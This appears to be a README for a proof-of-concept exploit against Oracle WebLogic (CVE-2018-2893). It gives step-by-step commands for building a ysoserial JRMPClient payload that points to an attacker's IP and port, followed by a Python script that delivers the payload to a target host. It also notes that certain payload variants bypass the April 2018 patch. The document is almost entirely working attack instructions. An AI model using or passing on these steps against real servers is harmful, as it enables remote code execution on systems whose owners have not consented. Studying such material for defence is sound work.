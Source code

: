 # CVE-2018-2893

## Step 1

`java -jar ysoserial-cve-2018-2893.jar`

```
WHY SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
Available payload types:
     Payload     Authors   Dependencies
     -------     -------   ------------
     JRMPClient  @mbechler
     JRMPClient2 
     JRMPClient3 
     JRMPClient4 
     Jdk7u21     @frohoff
```

## Step 2

`java -jar ysoserial-cve-2018-2893.jar  JRMPClient4 "<ip>:<port>" > poc4.ser`

## Step 3

`python weblogic.py <host> <port> poc4.ser`


### Note: Any one of  JRMPClient2|JRMPClient3|JRMPClient4 can be utilized to  bypass the Critical Patch Update April 2018.
